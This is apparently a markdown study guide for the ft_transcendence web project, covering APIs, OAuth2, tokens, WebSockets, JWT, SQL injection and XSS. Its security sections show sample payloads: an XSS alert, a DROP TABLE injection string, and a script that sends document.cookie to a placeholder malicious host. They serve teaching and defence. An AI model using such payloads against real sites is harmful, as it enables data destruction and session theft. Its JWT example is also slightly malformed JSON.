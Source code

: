 #### API

An API (*Application Programming Interface*) is a bridge that allows two systems to communicate with each other. In web development, it typically refers to the way a frontend (like a browser or game UI) sends requests to a backend server and receives responses.

You use an API when:
- Submitting a form (e.g. login, registration)
- Fetching game data or leaderboard scores
- Sending chat messages or match results

---
### API route

An API Route is a specific URL on the backend where these requests are handled, each route triggers a specific action, like verifying credentials or fetching profile data.
Routes are tied to actions:
- `GET` to fetch data
- `POST` to send or create data
- `PUT`/`PATCH` to update data
- `DELETE` to remove data

```http
Post /auth/login
```
⚠️ Common Mistakes
- Not validating input → Can lead to SQL injection or broken responses
- Mixing route naming conventions → e.g. using /createUser for one route and /user/42 for another → Instead, follow RESTful conventions (/user, /user/:id, /login)
- No consistent error handling → Some routes return vague 500s, others detailed 400s — confuse frontend devs
- Missing authentication checks → Forgetting to validate tokens leads to unauthorized access

🧠 TL;DR API routes are where client meets server. Define them clearly, validate input, and secure them properly.

#### OAuth2

OAuth2 is an authorization protocol that lets users log in using external services (e.g. Google, GitHub, school intranet), without sharing their password directly with your site. Instead, it exchanges secure tokens to verify identity between systems.

### 🔐 Why Use OAuth2?
- Offloads credential management to trusted providers
- Simplifies account creation and login
- Useful if you're connecting to platforms like the 42 API or any centralized user database

### ⚠️ Restrictions in This Project

You **cannot use libraries or tools** that:
- Provide a **complete out-of-the-box OAuth solution** (e.g. `passport`, `Auth0`, `NextAuth`)
- Implement the entire login flow on your behalf

✅ You **can** use:
- Small utilities that handle **subtasks** (e.g. parsing a redirect URL or encoding a token)
- Manual integration: sending your own requests to an OAuth provider, handling redirects, and managing tokens manually

🧠 Note: OAuth2 is **not required** for ft_transcendence. You can implement a local alias system or custom login instead.

<details>
<summary><em>Example (Manual OAuth2 Flow)</em></summary>

Let’s say your team chooses to use the 42 API for user login. Here’s how you could approach it **without violating constraints**:

1. **Redirect user to 42’s login URL** with proper client ID and scopes  
   → You can hardcode or generate this manually

2. **User logs in**, and 42 redirects back to your site with an authorization code  
   → You capture this code in your frontend or backend

3. **Exchange the code for a token** using a POST request from your server  
   → Manual `curl` or native PHP logic — no external library needed

4. **Store the token** securely (server-side or in a cookie)  
   → Use it to authenticate the user across the session

This way, you’re respecting the rule: **you’re not importing a full OAuth module**, you’re stitching the flow together piece by piece.

</details>

---


## Token based authentication

A method where users are identified using a temporary, secure token (usually a string or session ID) issued after login. The server validates this token with each action to confirm the user’s identity, without needing to store passwords or credentials long-term.

- Can be used with simple alias systems or full login flows
- Does **not require OAuth2**
- Useful for verifying players during tournaments, chat messages, or game submissions

<details>
<summary><strong>Example</strong></summary>

> Think of how you created a session in **webserv**: after a user logged in, you might have stored a session ID in a cookie or header. Each subsequent request checked that ID to confirm the user was valid — *that's token-based authentication.*
>
> Similarly, in **ft_irc**, each client had to introduce itself (e.g. with a nickname) before sending commands. While it wasn't technically a "token," the concept is similar: assign an identity, and validate it before letting the user interact.
>
</details>
This approach lets you build custom lightweight security for things like tournament actions, chat messages, and match submissions, even if you're not using full login systems or external identity providers.

---

## Websockets

WebSockets are a protocol that creates a **persistent, two-way connection** between a user's browser and your server. Unlike traditional HTTP (which sends a request and then closes), WebSockets stay open, making them ideal for live interaction.

### 🔧 What They’re Used For
- **Real-time Pong gameplay** (syncing ball and paddle positions)
- **In-game chat** (players see each other's messages instantly)
- **Live match updates** (e.g. "Next match: Alice vs Bob")
- **Player status events** (disconnects, score changes)

### 🔄 How They Keep Data Live
Once a WebSocket connection is opened, both client and server can push data to each other **at any time**, without needing to refresh the page or send separate HTTP requests.

<details>
<summary><strong>Example1</strong></summary> 
   
> Bob moves his paddle → browser sends a WebSocket message to server  
> Server immediately forwards that to Alice’s browser  
> Alice sees Bob’s paddle move, in real time

This keeps gameplay smooth, without delay or polling.
</details>



### 🛡️ Security & Sanitation
WebSockets are just a data channel, they don’t sanitize anything by default.

You **must** manually clean and validate anything users send:
- **On the server**, before storing or rebroadcasting (SQLi risk)
- **On the client**, before displaying in the DOM (XSS risk)

<details>
<summary><strong>Example2</strong></summary>
 
> A user sends a chat message with weird code or unexpected HTML  
> If you display it without filtering, it could break your page — or worse, run scripts  
> Always treat WebSocket messages like *untrusted input*

### 🧪 Beginner-Friendly Example
WebSockets commonly transmit data using lightweight JSON messages , here is a clean and maliciouse message:

```json
{
  "event": "chat",
  "sender": "Alice",
  "message": "Good luck!"
}

{
  "event": "chat",
  "sender": "Alice",
  "message": "<img src='x' onerror='alert(\"Hacked!\")'>"
}
```
</details>

---

### JWT

JWT stands for *JSON Web Token*. It's a compact, secure string used to verify a user's identity after login or registration.
After a successful login, the server creates a token using a **payload** (containing user data) and **signs** it with a secret key, typically using an algorithm like HMAC SHA256.
The final token is sent to the browser, and used in future requests so the server knows who’s interacting without needing to log in again each time.

<details>
<summary><strong>Payload example</strong></summary>
   
```json
{
  "alg": "HS256",
  "typ": "JWT"
}

{
  "userId": " 42 "
   "alias": "Alice")"
}
```

the server takes this payload (header and user data) , creates a signiture and applies it to the end of the token

``` <encoded-header>.<encoded-payload>.<signature> ```

</details>



### 🧾 Token storage options
##### Cookies
- Login persist across sessions and browser refresh
- Can be HTTPonly (secure flags) to reduce XSS risk
- Auto sent with requests, ideal for backend validation
- Or store in a session store (like Redis) tied to a cookie token
##### Memory
- (e.g. JS variable)	Temporary login, single session, lost on page reload
- Simpler, useful for lightweight or temporary login

Most teams use Node.js, Python, Go, or PHP for JWT-heavy work because of mature libraries and easy support for hashing, signing, and validation.

---

### SQL Injection

SQL Injection is a type of attack where malicious users send crafted input that tricks your server into executing unintended database commands.
Instead of behaving like simple form input, the attacker embeds **SQL commands** into the request, potentially altering or destroying data.

### ⚠️ Example (Unsafe Query)
<details>
<summary><strong>unsafe query example</strong></summary>

```sql
SELECT * FROM users WHERE name = 'Alice';
```
An attacker might submit:

```sql
'Alice'; DROP TABLE users; --
```

This tunrs your query into
```sql
SELECT * FROM users WHERE name = 'Alice'; DROP TABLE users; --
```

🧨 Result: Your entire users table gets deleted, all accounts wiped.
</details>

### 🛡️ Typical Prevention
- Use parameterized queries or prepared statements

```sql
SELECT * FROM users WHERE name = ?
```
- Never build SQL queries using raw user input
- Sanitize and validate input server-side, especially for:
   - Login forms
   - Search fields
   - Any user-controlled input that interacts with a database
Backend protects by:

---

### XSS Cross Site Scripting
Cross-Site Scripting (XSS) is an attack where a user submits malicious content that gets rendered as executable code in someone else's browser.

Often used to:
- Steal cookies or session tokens
- Trick users with fake login prompts
- Break or deface UI content

### ⚠️ Example (Injected Script)
<details>
<summary><strong>injected script example</strong></summary>
   
Attacker sends a chat message:
```html
<script>fetch('https://malicious.site/send?cookies=' + document.cookie)</script>
```

if this is displayed raw in frontend: 

```html
<div>User says: <script>...</script></div>
```
🧨 Result: The script runs in every viewer’s browser, sending their cookies to the attacker.

</details>

🛡️ Typical Prevention
- Sanitize user content before displaying
- Escape <, >, ", ', /, and other unsafe characters
- Use text-safe render methods (e.g. textContent, not innerHTML)
- Set Content Security Policy (CSP) headers to restrict which scripts can run
- Avoid trusting input across chat, comments, forms, or aliases

🧠 TL;DR If someone submits HTML, never render it raw. Treat user input like radioactive material until cleaned.

---
